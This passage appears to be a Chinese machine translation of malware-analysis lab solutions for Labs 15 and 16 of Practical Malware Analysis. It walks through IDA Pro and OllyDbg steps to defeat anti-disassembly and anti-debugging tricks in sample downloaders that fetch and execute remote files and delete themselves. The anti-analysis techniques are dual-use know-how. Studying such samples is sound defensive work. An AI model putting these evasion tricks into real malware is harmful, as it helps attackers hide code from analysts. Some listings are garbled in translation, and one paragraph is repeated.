将光标放在 0x00401010 行，然后按键盘上的 D 键将行转换为数据，如列表 15-2L 所示。注意，CODE XREF 注释不再为红色，而是绿色，jz 指令的目标也不再是 loc_401010+1，而是 unk_401011，如所示。

0040100E 74 01 jz short near ptr unk_401011 

0040100E ; --------------------------------------------------------------

00401010 E8 db 0E8h

00401011 8B  unk_401011

db 8Bh ; ï ; CODE XREF: 0040100Ej

*列表 15-2L：将列表 15-1L 中的调用指令转换为数据* 我们现在可以修改 jz 指令的真实目标。要做到这一点，将光标放在处，然后按键盘上的 C 键将此数据转换为代码。列表后面的指令可能对齐不当，所以继续在每个 db 行后按 C 键，直到每个指令后面紧跟着另一个指令，中间没有数据字节。

在偏移量 0x0040101F 处再次发现了相同的错误条件技术。

以相同的方式清理此位置的代码，以揭示在 0x00401033 处使用错误条件技术的另一个例子。最后需要修复的地方是 0x00401047 和 0x0040105E。

一旦所有代码正确反汇编，从 0x00401000 行到 0x00401077 行的 retn 指令选择代码，然后按键盘上的 P 键强制 IDA Pro 将此代码块转换为函数。

一旦它成为一个函数，将函数参数重命名为 argc 和 argv。此时，在 0x00401006 行应该清楚，程序检查 argc 的值是否为 2，如果不是，则打印失败字符串。如果值为 2，0x0040101A 行将 argv[1]的第一个字母与 p 进行比较。0x0040102E 行

然后比较第三个字母与 q，0x00401042 行比较第二个字母与 d。如果这三个字母都相等，则在 0x00401051 行打印字符串 Good Job!。

**实验 15-2 解答**

***简短回答***

1.

初始请求的 URL 是*http://www.practicalmalwareanalysis.com/*

*bamboo.html*.

2.

用户代理字符串是通过将主机名（*Z*和 9 旋转到*A*和 0）中的每个字母和数字加 1 生成的。

3.

程序在其请求的页面中寻找字符串 Bamboo::。

**646**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

4.

程序在 Bamboo::字符串之后搜索以找到额外的::，并将其转换为空终止符。在 Bamboo 和终止符之间的字符串被下载到名为*Account Summary.xls.exe*的文件中并执行。

**详细分析**

使用 IDA Pro 打开二进制文件，并滚动到偏移量为 0x00401000 的主函数。我们将从自顶向下读取该函数，修复每个对策，直到达到函数的逻辑结束。我们遇到的第一项对策如列表 15-3L 所示。

在地址 0x0040115A。

0040115A test esp, esp

0040115C jnz short near ptr loc_40115E+1 

0040115E

0040115E loc_40115E: ; CODE XREF: 0040115Cj 0040115E jmp near ptr 0AA11CDh 

0040115E ; ----------------------------------------------------------------------

00401163 db 6Ah

00401164 dd 0E8006A00h, 21Ah, 5C858B50h, 50FFFEFDh, 206415FFh, 85890040h 00401164 dd 0FFFFFD64h, 0FD64BD83h, 7400FFFFh, 0FC8D8D24h, 51FFFFFEh *列表 15-3L：假条件*

列表显示了在处使用的 jnz 指令的假条件。

由于 ESP 的值在此程序的这个点始终不为零，因此跳转总是会被执行。ESP 寄存器永远不会加载特定的值，但为了正常工作的 Win32 应用程序，它必须不为零。

跳转的目标位于处的 5 字节跳转指令内。将光标置于并按键盘上的 D 键，将此指令转换为数据。然后将光标移至跳转目标行 0x0040115F 和**1 5**

按 C 键将行转换为代码。

我们继续阅读代码，直到遇到行 0x004011D0 处的反汇编对策。这是一个基于 xor eax, eax 指令后的 jz 的简单假条件。以与 Lab 15-1 中相同的方式更正此反汇编。务必继续将字节转换为代码，以便它清晰可读。继续阅读代码，直到到达行 0x00401215 处的下一个对策，如列表 15-4L 所示。

00401215 loc_401215: ; CODE XREF: loc_401215j 00401215 EB FF  jmp short near ptr loc_401215+1

*列表 15-4L：自跳转*

在地址处有一个 2 字节跳转指令，其目标是指令自身的第二个字节。

第二个字节是下一条指令的第一个字节。将此指令转换为数据，并将光标移至第二个字节，位置 0x00401216，并将其转换为代码。为了使 IDA Pro 生成干净的图形，将跳转指令的第一个字节（0xEB）转换为 NOP。如果您使用的是商业解决方案

**647**

[www.it-ebooks.info](http://www.it-ebooks.info/)

IDA Pro 的版本，选择**文件****Python 命令**，在文本框中输入**PatchByte(0x401215,** **0x90)**，然后点击**确定**。现在将光标移至地址 0x00401215，该位置应包含值 db 90h，并通过按 C 键将其转换为代码。

继续阅读代码，直到你到达行号 0x00401269 的下一个对策，它显示在列表 15-5L 中。

00401269 jz short near ptr loc_40126D+1 

0040126B jnz short near ptr loc_40126D+1 

0040126D

0040126D loc_40126D: ; CODE XREF: 00401269j 0040126D ; 0040126Bj 0040126D call near ptr 0FF3C9FFFh 

*列表 15-5L：具有相同目标的假条件* 列表 15-5L 显示了一种基于将条件分支的两部分放在一起（和）并指向相同目标的假条件。

jnz 和 jz 的目标相同意味着对策不依赖于零标志的特定状态，无论是设置还是清除，以便达到目标代码。在这种情况下，目标位于行号 0x0040126D 的调用指令中间在处。通过按 D 键将此指令转换为数据。

在键盘上按键。然后将光标放在行号 0x0040126E 上，使用 C 键将其转换为代码。

继续阅读代码，直到你到达行号 0x004012E6 的下一个对策，它显示在列表 15-6L 中。

004012E6 loc_4012E6: ; CODE XREF: 004012ECj 004012E6 66 B8 EB 05 mov ax, 5EBh 

004012EA 31 C0 xor eax, eax 004012EC 74 FA jz short near ptr loc_4012E6+2 

004012EE E8 6A 0A 6A 00 call near ptr 0AA1D5Dh *列表 15-6L：将假条件跳转插入到前一条指令的中间* 列表 15-6L 显示了一种高级对策，涉及将假条件跳转插入到前一条指令的中间，如处的向上跳转 jz 所示。这跳转到处的 mov 指令的中间。

在这种情况下，反汇编器无法显示所有执行的指令，因为操作码被使用了两次，所以只需逻辑地跟随代码，并在到达时将每个指令转换为代码。

完成此对策后，它应该看起来像列表 15-7L 中的代码。在处，我们看到从上一列表中的 mov 指令中间转换为一个合适的 jmp 指令。

004012E6 66 db 66h

004012E7 B8 db 0B8h ; +

004012E8 ; ------------------------------------------------------------

004012E8

004012E8 loc_4012E8: ; CODE XREF: 004012ECj **648**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

004012E8 EB 05 jmp short loc_4012EF 

004012EA ; ------------------------------------------------------------

004012EA 31 C0 xor eax, eax 004012EC 74 FA jz short loc_4012E8

004012EC ; ------------------------------------------------------------

004012EE E8 db 0E8h 

004012EF ; ------------------------------------------------------------

004012EF

004012EF loc_4012EF: ; CODE XREF: loc_4012E8j 004012EF 6A 0A push 0Ah

*列表 15-7L：手动修复的反反汇编代码* 您可以使用列表 15-4L 之后描述的 IDA Python **PatchByte**选项将所有额外的 db 字节（如所示）转换为 NOPs。这将允许您在 IDA Pro 中创建一个合适的函数。要创建一个函数，在修补 NOPs 之后，从 0x0040130E 行的 retn 指令开始选择所有代码到 0x00401000 函数开始处，然后按 P 键。要图形化查看结果函数，按空格键。

这两个函数（sub_4012F2 和 sub_401369）紧随主函数之后。每个函数都在堆栈上构建一个字符串，使用 strdup 将其复制到堆中，并返回堆字符串的指针。恶意软件作者精心设计了此函数，以便构建的字符串在二进制文件中不会显示为明文字符串，而仅在运行时内存中显示。这两个函数中的第一个生成了字符串 http://www.practicalmalwareanalysis.com/

bamboo.html，第二个生成了字符串 Account Summary.xls.exe。

在主函数中击败了所有的反反汇编对策之后，这些函数应该显示从主函数中调用的交叉引用。通过将光标放在函数名称上并按键盘上的 N 键，将这些函数重命名为 buildURL 和 buildFilename。

列表 15-8L 显示了调用 buildURL（我们重命名的函数）的位置。

**1 5**

0040115F push 0

00401161 push 0

00401163 push 0

00401167 push 0

0040116C call buildURL 

0040116D push eax

00401173 mov edx, [ebp+var_10114]

00401174 push edx

0040117A call ds:InternetOpenUrlA 

*列表 15-8L：打开* http://www.practicalmalwareanalysis.com/bamboo.html *URL*

继续阅读代码，我们看到它尝试使用 InternetOpenUrlA 打开 buildURL 在返回的*bamboo.html* URL。为了确定恶意软件在调用 InternetOpenUrlA 函数时使用的 User-Agent 字符串，我们首先需要找到 InternetOpen 函数调用并确定传递给它的数据。在函数的早期部分，我们看到 InternetOpenA 被调用，如列表 15-9L 所示。

实验室解决方案

**649**

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040113F push 0

00401141 push 0

00401143 push 0

00401145 push 1

00401147 lea ecx, [ebp+name] 

0040114D push ecx 

0040114E call ds:InternetOpenA

*列表 15-9L：通过 InternetOpenA 设置连接* 在处的 InternetOpenA 的第一个参数是 User-Agent 字符串。ECX 作为此参数被推入，lea 指令将其加载为堆栈上位置的指针。IDA Pro 的堆栈帧分析将此位置命名为 name，如所示。我们必须在函数中向上滚动以查看 name 是如何被填充的。在函数的开始部分，如列表 15-10L 所示，我们看到对 name 位置的引用。

00401047 push 100h ; namelen 0040104C lea eax, [ebp+name] 

00401052 push eax ; name

00401053 call ds:gethostname

*列表 15-10L：使用 gethostname 获取本地计算机的名称* gethostname 函数将本地计算机的名称填充到一个缓冲区中。根据列表 15-10L，您可能会得出结论，User-Agent 字符串将是主机名，但您只对了一半。实际上，仔细检查 0x00401073 和 0x0040113F 位置之间的代码（此处未显示）揭示了一个循环，该循环负责在将其用作 User-Agent 之前将主机名中的每个字母或数字增加一个。 （末尾的字母和数字 *Z* 和 9 被重置为 *A* 和 0。）

在调用 InternetOpenA 和第一次调用 InternetOpenUrlA 之后，数据（一个 HTML 网页）通过调用 InternetReadFile 下载到本地缓冲区，如列表 15-11L 所示。包含数据的缓冲区是第二个参数，由 IDA Pro 自动命名为 Str。在函数中向下几行，我们看到 Str 缓冲区再次在  处被访问。

0040118F 压入 eax

00401190 压入 0FFFFh

00401195 将 [ebp+Str] 的值加载到 ecx 

0040119B 压入 ecx

0040119C 将 [ebp+var_10C] 的值移动到 edx

004011A2 将 edx 压入堆栈

004011A3 调用 ds:InternetReadFile 

...

004011D5 压入 SubStr 的偏移量 ; "Bamboo::"

004011DA 将 [ebp+Str] 的值加载到 ecx 

**650**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

004011E0 压入 ecx ; Str 004011E1 调用 ds:strstr 

*列表 15-11L：读取和解析下载的 HTML*

在  位置使用的 strstr 函数用于在较长的字符串中查找子字符串。

在这种情况下，它正在缓冲区 Str 中查找 Bamboo:: 字符串，该缓冲区包含我们从初始 URL 获取的所有数据。strstr 调用之后的代码显示在列表 15-12L 中。

004011E7 将 esp 增加 8

004011EA 将 eax 的值移动到 [ebp+var_108] 

004011F0 比较 [ebp+var_108] 的值和 0

004011F7 如果为零跳转到 loc_401306

004011FD 压入 asc_40303C 的偏移量 ; "::"

00401202 将 [ebp+var_108] 的值移动到 edx

00401208 压入 edx ; Str

00401209 调用 ds:strstr 

0040120F 将 esp 增加 8

00401212 将 eax 指向的内存字节设置为 0 

...

00401232 将 eax 的值移动到 [ebp+var_108]

00401238 添加 eax, 8 

0040123E 将 eax 的值移动到 [ebp+var_108]

*列表 15-12L：解析由 Bamboo:: 和 :: 分隔的字符串* 如您所见，下载的 HTML 中找到的 Bamboo:: 字符串的指针存储在 var_108 中。在  处可以看到第二次调用 strstr，用于搜索下一个 ::。一旦找到两个冒号，代码在  处执行。

将第一个冒号替换为 NULL，这是为了终止 Bamboo:: 和 :: 之间的字符串。

在 var_108 位置存储的指针通过八位增加。这相当于 Bamboo:: 的确切字符串长度，这正是指针所引用的内容。在此操作之后，指针将引用冒号之后的任何内容。由于代码已经找到了尾随的冒号并将它们替换为 NULL，我们现在有了 Bamboo:: 和 :: 之间内容的正确空终止字符串，这些内容存储在 var_108 中。

这看起来像是 Bamboo:: 的确切字符串长度，这正是指针所引用的内容。在此操作之后，指针将引用冒号之后的任何内容。由于代码已经找到了尾随的冒号并将它们替换为 NULL，我们现在有了 Bamboo:: 和 :: 之间内容的正确空终止字符串，这些内容存储在 var_108 中。

在字符串解析代码之后，我们看到 var_108 在  处被使用

在列表 15-13L 中。

00401247 push 0

00401249 push 0

0040124B push 0

0040124D push 0

0040124F mov ecx, [ebp+var_108] 

00401255 push ecx

00401256 mov edx, [ebp+var_10114]

0040125C push edx

0040125D call ds:InternetOpenUrlA

*列表 15-13L：为了下载更多恶意软件而打开另一个 URL* 实验室解决方案

**651**

[www.it-ebooks.info](http://www.it-ebooks.info/)

InternetOpenUrlA 的第二个参数（var_108）是要打开的 URL。

因此，在 Bamboo:: 和尾部冒号之间的数据旨在是程序下载的 URL。分析第 0x0040126E 行到第 0x004012E3 行之间的代码（此处未显示），揭示在列表 15-13L 中打开的 URL 被下载到文件 *Account Summary.xls.exe*，然后通过第 0x00401300 行的 ShellExecute 调用启动。

**实验室 15-3 解决方案**

***简短答案***

1\.

恶意代码最初是通过覆盖主函数的返回指针来调用的。

2\.

恶意代码从 URL 下载文件并使用 WinExec 启动它。

3\.

程序使用的 URL 是 *http://www.practicalmalwareanalysis.com/*

*tt.html*.

4\.

程序使用的文件名为 *spoolsrv.exe*。

***详细分析***

快速检查这个二进制文件，最初看起来像是一个进程列表工具。你可能也注意到了一些可疑的导入，例如 URLDownloadToFile 和 WinExec。如果你在 IDA Pro 中的代码底部附近滚动，就在 C 运行时库代码之前，你可能甚至注意到这些可疑函数被调用的位置。这段代码似乎根本不是程序的一部分。没有任何引用，而且其中很大一部分甚至没有被反汇编。

滚动到主函数的顶部，检查反汇编的行，如列表 15-14L 所示。

0040100C mov eax, 400000h 

00401011 or eax, 148Ch 

00401016 mov [ebp+4], eax 

*列表 15-14L：计算地址并将其加载到堆栈上* 此代码通过 OR 0x400000  和 0x148C  构建值 0x0040148C。

将其存储在 EAX 中。代码将这个值加载到与 EBP 相关的堆栈上的某个位置，如  所示。你可以按 CTRL-K 打开当前函数的堆栈帧视图，以查看偏移量 4 指向返回地址。通过覆盖返回地址，当主函数结束时，0x0040148C 处的孤儿代码将执行，而不是 C 运行时库中的正常进程终止代码。

0x0040148C 处的代码在 IDA Pro 中没有被识别为函数的一部分，如列表 15-15L 所示。

**652**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040148C push ebp

0040148D mov ebp, esp

0040148F push ebx

00401490 push esi

00401491 push edi

00401492 xor eax, eax

00401494 jz short near ptr loc_401496+1 

00401496

00401496 loc_401496: ; CODE XREF: 00401494j 00401496 jmp near ptr 4054D503h 

*列表 15-15L：在 0x40148C 处汇编的孤儿代码*

这段孤立代码最初是一个正常函数，但随后我们遇到了以假条件形式出现的一种反汇编对抗措施。

在这里，jz 指令总是会跳转。跳转的目标是 0x00401497，目前在反汇编中未显示，因为它是一个 5 字节 jmp 指令的第二字节，该指令在处显示。将光标放在处的 jmp 指令上并按 D 键将其转换为数据。然后，将光标放在行 0x00401497 上并按 C 键将其转换为代码。

一旦正确反汇编了 0x00401497，你将看到的下一块代码如清单 15-16L 所示。

00401497 推送 offset dword_4014C0

0040149C 推送 large dword ptr fs:0

004014A3 将 large fs:0 的值移动到 esp

004014AA xor ecx, ecx

004014AC 除以 ecx 

004014AE 推送 offset aForMoreInforma ; "更多信息..."

004014B3 调用 printf

*清单 15-16L：构建异常处理程序并触发异常* **1 5**

和处的行仅放置在那里以充当诱饵；它们永远不会被执行。此片段的前五行构建了一个异常处理程序并在处触发除以零异常。（由于前一条指令中的 xor ecx,ecx，ECX 总是为零。）处理异常的位置是 0x004014C0，如清单 15-17L 所示。

004014C0 dword_4014C0 dd 824648Bh, 0A164h, 8B0000h, 0A364008Bh, 0

004014C0 ; DATA XREF: loc_401497o 004014D4 dd 0EB08C483h, 0E848C0FFh, 0

*清单 15-17L：当前定义为数据的异常处理代码* IDA Pro 没有将清单 15-17L 中的数据识别为代码，而是选择将其表示为一系列 DWORD。将光标放在第一个 DWORD 上并按 C 键将其更改为代码。

实验室解决方案

**653**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在将清单 15-17L 中的数据成功更改为代码后，它将如清单 15-18L 所示显示。

004014C0 将 esp 的值移动到 [esp+8]

004014C4 将 eax 的值移动到 large fs:0

004014CA 将 eax 的值移动到 [eax]

004014CC 将 eax 的值移动到 [eax]

004014CE 将 large fs:0 的值移动到 eax

004014D4 添加 esp, 8

004014D7 短跳转 near ptr loc_4014D7+1 

*清单 15-18L：正确反汇编的异常处理代码* 清单 15-18L 中的代码解除了结构化异常处理程序的链接，并从堆栈中删除了异常记录。代码的最后一条是反汇编对抗措施，形式为指向内点的 jmp 指令。通过将光标放在 0x4014D7 处将 jmp 转换为数据。

按下 D 键。然后选择行 0x004014D8 并使用 C 键将其转换为代码。

在修正清单 15-18L 中显示的反汇编对抗措施后，我们看到其余的代码通过调用 URLDownloadToFileA 正确反汇编，如清单 15-19L 中的所示。

004014E6 推送 offset unk_403010

004014EB 调用 sub_401534 

004014F0 添加 esp, 4

004014F3 推送 offset unk_403040

004014F8 调用 sub_401534 

004014FD 添加 esp, 4

00401500 推送 0

00401502 推送 0

00401504 推送 offset unk_403040 

00401509 推送 offset unk_403010 

0040150E 推送 0

00401510 调用 URLDownloadToFileA 

*列表 15-19L：从 URL 下载文件*

URLDownloadToFileA 的第二个和第三个参数分别是 URL 和文件名。看起来全局内存位置 unk_403010

和 unk_403040 分别在  和  处被使用。如果你用 IDA Pro 检查这段内存，数据看起来不是 ASCII 文本。这些相同的地址也被传递给 sub_401534 在  和 。我们应该检查这个函数，看看它是否解码这些数据。对这个函数的仔细分析（此处未显示）会发现它通过 XOR 每个字节与值 0xFF 来修改一个缓冲区的指针，并就地修改它。如果我们 XOR unk_403010 中的数据，我们得到字符串 http://www.practicalmalwareanalysis.com/tt.html 和 spoolsrv.exe 作为 unk_403040\.

在调用 URLDownloadToFileA 之后立即，我们遇到了最后一个反反汇编对策，如列表 15-20L 所示。这是一个 **654**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

以 jz 和 jnz 组合的形式创建的无条件跳转的假条件，在  和  处。

00401515 jz short near ptr loc_401519+1 

00401517 jnz short near ptr loc_401519+1 

00401519

00401519 loc_401519: ; CODE XREF: 00401515j 00401519 ; 00401517j 00401519 调用 near ptr 40A81588h

0040151E xor [eax+0], al

00401521 调用 ds:WinExec

*列表 15-20L：在恶意软件中遇到的最后一个反反汇编技术* 跳转的目标是 0x0040151A。将光标放在 0x00401519 行上，按 D 将此行转换为数据。然后选择 0x0040151A 行，按 C 将其转换为代码。继续这个过程，直到你只剩下列表 15-21L 中显示的代码。

0040151A 推送 0

0040151C 推送偏移量 unk_403040

00401521 调用 ds:WinExec 

00401527 推送 0

00401529 调用 ds:ExitProcess

*列表 15-21L：使用 WinExec 启动下载的文件* 在  处的 WinExec 调用将启动缓冲区 unk_403040 中指定的内容，该缓冲区将包含值 spoolsrv.exe。然后程序通过 ExitProcess 手动终止。

**实验室 16-1 解决方案**

***简短回答***

**1 6**

1\.

恶意软件检查 BeingDebugged、ProcessHeap 和 NTGlobalFlag 标志的状态，以确定它是否在调试器中运行。

2\.

如果恶意软件的任何反调试技术成功，它将终止并从磁盘上删除自己。

3\.

你可以在 OllyDbg 运行时手动更改跳转标志，但这样做会很麻烦，因为这种恶意软件频繁检查内存结构。相反，手动或通过使用 OllyDbg 插件如 PhantOm 或 Immunity Debugger (ImmDbg) PyCommand hidedebug 来修改恶意软件在内存中检查的结构。

4\.

请参阅详细分析，了解在 OllyDbg 中导出和修改结构的逐步方法。

5\.

OllyDbg 插件 PhantOm 和 ImmDbg PyCommand hidedebug 都会阻止这种恶意软件的检查。

实验室解决方案

**655**

[www.it-ebooks.info](http://www.it-ebooks.info/)

***详细分析***

如实验室描述中所述，此恶意软件与*Lab09-01.exe*相同，只是增加了反调试技术。因此，一个好的开始是解决 Lab 9-1 或者复习你的答案。

当我们将此恶意软件加载到 OllyDbg 中时，我们看到它试图删除自己。怀疑一定出了问题，或者这个恶意软件与 Lab 9-1 显著不同，我们将*Lab16-01.exe*加载到 IDA Pro 中。如图 16-1L 所示，我们注意到主方法的开头看起来可疑，因为有几个对 fs:[30]的访问和对 IDA Pro 识别为不返回的函数的调用。事实上，IDA Pro 识别的大多数函数都有这个可疑的开始。（Lab 9-1 中的所有函数都没有这段代码。）*图 16-1L：* *Lab 16-1* *大多数函数开始时包含的反调试检查*

我们在图 16-1L 中的、和处看到 sub_401000 被调用，代码在那里停止（没有线条离开方框）。由于没有线条离开方框，这意味着函数可能终止了程序或者不包含 ret 指令。图 16-1L 中的每个大方框都包含一个检查，以决定是否调用 sub_401000 或者恶意软件将继续正常执行。（我们将在查看 sub_401000 之后分析这些检查。）sub_401000 函数可疑，因为执行不会从它返回，所以我们进一步检查它。列表 16-1L 显示了它的最后指令。

**656**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

004010CE lea eax, [ebp+Parameters]

004010D4 push eax ; lpParameters 004010D5 push offset File ; "cmd.exe"

004010DA push 0 ; lpOperation 004010DC push 0 ; hwnd

004010DE call ds:ShellExecuteA 

004010E4 push 0 ; Code

004010E6 call _exit 

*列表 16-1L：包含终止恶意软件和从磁盘删除恶意软件代码的函数 sub_401000* 

函数 sub_401000 在处通过调用 _exit 结束，终止了恶意软件。在处的 ShellExecuteA 调用通过使用参数/c del Lab16-01.exe 启动*cmd.exe*，从磁盘上删除恶意软件。检查对 sub_401000 的交叉引用，我们发现共有 79 个，其中大部分来自图 16-1L 中显示的反调试代码。让我们剖析图 16-1L。

更详细地。

**调试中标志**

列表 16-2L 显示了图 16-1L 顶部方框中的代码。

00403554 mov eax, large fs:30h 

0040355A mov bl, [eax+2] 

0040355D mov [ebp+var_1820], bl

00403563 movsx eax, [ebp+var_1820]

0040356A test eax, eax

0040356C jz short loc_403573 

0040356E call sub_401000

*列表 16-2L：检查调试中标志*

如您所见，PEB 结构在处使用 fs:[30]位置加载到 EAX 中，正如在第 353 页的“手动检查结构”中讨论的那样。

在处，第二个字节被访问并移动到 BL 寄存器中。在处，**1 6**

代码决定是否调用 sub_401000（终止并删除函数）或继续运行恶意软件。

当进程在调试器内运行时，PEB 结构偏移量为 2 的 BeingDebugged 标志被设置为 1，但我们需要将此标志设置为 0，以便恶意软件在调试器内正常运行。我们可以将此字节设置为 0

可以手动进行，也可以使用 OllyDbg 插件。我们先手动进行。

在 OllyDbg 中，请确保您已安装命令行插件（如第九章所述）。要启动插件，请将恶意软件加载到 OllyDbg 中并选择 **插件****命令行**。在命令行窗口中，输入以下命令：

dump fs:[30] + 2

实验解决方案

**657**

[www.it-ebooks.info](http://www.it-ebooks.info/)



此命令将 BeingDebugged 标志输出到转储窗口。

要手动清除 BeingDebugged 标志，请在命令行窗口中运行转储命令，如图 16-2L 上半部分所示。然后右键单击 BeingDebugged 标志并选择 **二进制****填充为 00**，如图 16-2L 下半部分所示。这将标志设置为 0。通过此更改，恶意软件函数开始时进行的多次 BeingDebugged 检查将不再调用 sub_401000 函数。

现在我们尝试插件方法。OllyDbg 插件 PhantOm (*http://www.woodmann.com/collaborative/tools/index.php/PhantOm*) 将保护您免受恶意软件使用的许多反调试检查。下载插件并将其复制到 OllyDbg 安装目录中，然后启动 OllyDbg。然后选择 **插件****PhantOm****选项** 打开 PhantOm 选项对话框，如图 16-3L 所示。勾选第一个选项，**从 PEB 隐藏**，以便在 OllyDbg 加载恶意软件时将 BeingDebugged 标志设置为 0。（通过在安装插件前后转储 PEB 结构来确认这一点。）

*图 16-2L：使用命令行转储*

*图 16-3L：OllyDbg PhantOm*

*将 BeingDebugged 标志设置为 0*

*插件选项*

**ProcessHeap 标志**

列表 16-3L 显示了图 16-1L 中间框中的代码。

00401410 64 A1 30 00 00+ mov eax, large fs:30h 

00401416 8B 40 18 mov eax, [eax+18h] 

00401419 db 3Eh 

00401419 3E 8B 40 10 mov eax, [eax+10h] 

0040141D 89 45 F0 mov [ebp+var_10], eax 00401420 83 7D F0 00 cmp [ebp+var_10], 0 

00401424 74 05 jz short loc_40142B

00401426 E8 D5 FB FF FF call sub_401000

*列表 16-3L：检查 ProcessHeap 标志*

**658**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

使用 fs:[30] 将 PEB 结构加载到 EAX 中 。在 ，将 ProcessHeap 结构（PEB 中的偏移量为 0x18）移动到 EAX，然后将 ForceFlags 字段（ProcessHeap 结构中的偏移量为 0x10）移动到 EAX 中 。ForceFlags 在  处与 0 进行比较，以决定是否调用 sub_401000 或继续正常运行。

IDA Pro 添加了一个错误的 db 3Eh 指令。我们在列表 16-2L 中显示了操作码，以表明 0x3E 包含在下一个指令中。如果您查看 OllyDbg 中的反汇编，您将看不到这个错误。

**注意**

*当您遇到错误的 db 指令时，您可以忽略它们，但您应该 *显示操作码以确认字节在指令中正确反汇编。*

当在调试器中创建 ProcessHeap 结构时，4 字节的 ForceFlags 字段不为零，并且为了使恶意软件在调试器中正常运行，ForceFlags 字段必须为 0。我们需要在调试时将其更改为 0，无论是使用 OllyDbg 命令行插件手动更改，还是使用 OllyDbg PhantOm 插件，就像 BeingDebugged 标志一样。

要手动设置 ForceFlags 字段为 0，通过选择 **插件****命令行** 启动命令行插件，然后在窗口中输入以下命令：

将 ds:[fs:[30] + 0x18] + 0x10 的内容转储

该命令将 ProcessHeap 结构的 ForceFlags 字段转储到转储窗口中。选择 ForceFlags 字段的 4 个字节，然后右键单击并选择 **二进制****填充为 00** 以将 4 个字节设置为 0。

**注意**

*在 Windows 7 中，偏移量 0x10 已不再是 ForceFlags 字段，因此这种反调试方法可能会在新版本的 Windows（XP 以后）中错误地指示存在调试器。*

或者，使用 PhantOm 插件来防止 ProcessHeap 反调试技术。当您禁用调试堆创建启动程序时，PhantOm 插件将导致此技术失败。（您 **1 6**）

（不需要像修改 BeingDebugged 标志那样修改设置。）**注意**

*在 WinDbg 中，您可以使用 –hd 选项启动程序以禁用调试堆，这将导致 ForceFlags 字段始终为 0。例如，命令 *windbg –hd Lab16-01.exe 以正常模式创建堆，而不是以调试模式。*

**NTGlobalFlag 标志**

图 16-1L 的下方框中的代码显示在列表 16-4L 中。

00403594 mov eax, large fs:30h 

0040359A db 3Eh 

0040359A mov eax, [eax+68h] 

0040359E sub eax, 70h

实验室解决方案

**659**

[www.it-ebooks.info](http://www.it-ebooks.info/)

004035A1 mov [ebp+var_1828], eax 004035A7 cmp [ebp+var_1828], 0

004035AE jnz short loc_4035B5

004035B0 call sub_401000

*列表 16-4L：检查 NTGlobalFlag 标志*

使用 fs:[30] 将 PEB 结构加载到 EAX 中，然后访问 NTGlobalFlag 并将其移动到 EAX 中。NTGlobalFlag 与 0x70 进行比较，并做出是否调用 sub_401000（终止并删除函数）或继续正常执行的决策。由 IDA Pro 添加的错误 db 3Eh 指令在处可见，我们忽略它。

在 PEB 结构的偏移量 0x68 处的 NTGlobalFlag 标志，当进程在调试器中运行时被设置为 0x70。与其他我们讨论过的标志一样，我们需要将这个字节设置为 0，无论是手动操作还是通过使用 OllyDbg 插件。

要手动设置 NTGlobalFlag，请通过选择**插件****命令行**启动命令行插件，然后在窗口中输入以下命令：

dump fs:[30] + 0x68

这会将 NTGlobalFlag 标志放入转储窗口。与 BeingDebugged 标志一样，选择字节，右键单击，然后选择**二进制****填充为** **00’s** 以将字节设置为 0\。

您还可以使用 OllyDbg 插件 PhantOm 来保护自己免受 NTGlobalFlag 反调试技术的侵害，而无需修改任何设置。

**总结**

Lab 16-1 使用三种不同的反调试技术来尝试阻止调试器分析。恶意软件手动检查结构以寻找调试器使用的迹象，并在几乎所有子例程的开始处执行相同的三个检查，这使得在调试器内部翻转单跳标志变得繁琐。如您所见，击败恶意软件的最简单方法是更改内存中的结构，使检查失败，您可以通过手动更改或使用 OllyDbg 的 PhantOm 插件来完成此更改。

**16-2 实验解决方案**

***简短答案***

1\。

当您从命令行运行*Lab16-02.exe*时，它打印出一个使用字符串，要求输入一个四字符密码。

2\。

如果您输入了错误的密码，程序将响应“密码错误，请重试。”

**660**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

3\。

正确的命令行密码是 byrr。

4\。

strncmp 函数在 0x40123A 处被调用。

5\。

使用默认设置将程序加载到 OllyDbg 中时，程序会立即终止。

6\。

程序包含一个.tls 部分。

7\。

TLS 回调从 0x401060 开始\。

8\。

FindWindowA 函数用于终止恶意软件。它寻找具有类名 OLLYDBG 的窗口，如果找到，则终止程序。您可以使用 PhantOm 等 OllyDbg 插件更改窗口类名，或者通过在 0x40107C 处的退出调用中 NOP-out 来更改它。

9\。

首先，当您在 strncmp 调用处设置断点时，密码看起来像是 bzqr。

10\. 在调试器中找到的此密码在命令行中不起作用。

11\. OutputDebugStringA 的结果和 BeingDebugged 标志被用作解码算法的输入。您可以使用 PhantOm 插件确保 BeingDebugged 标志为 0，并且您可以在 0x401051 处的 add 指令中 NOP-out。

***详细分析***

我们首先从命令行运行程序，并看到以下内容打印到屏幕上：

使用方法：Lab16-02.exe <4 字符密码>

程序期望一个四字符密码。接下来，我们尝试在命令行中提供密码 abcd，并得到以下输出：密码错误，请重试。

现在，我们寻找代码中的字符串比较，以便我们可以在调试器中运行程序，并在字符串比较处设置断点以**1 6**

查看密码。第 16-2 题的提示表明使用了 strncmp。

如果我们将程序加载到 IDA Pro 中，我们会看到在 0x40123A 的主函数中的 strncmp。让我们将程序加载到 OllyDbg 中，并在 0x40123A 处设置一个断点。

在我们将*Lab16-02.exe*加载到 OllyDbg 后，它立即终止而不会暂停程序。我们怀疑有问题，因此我们检查 PE

文件结构。图 16-4L 显示了 PEview 中的 PE 头部部分名称。

实验解决方案

**661**

[www.it-ebooks.info](http://www.it-ebooks.info/)

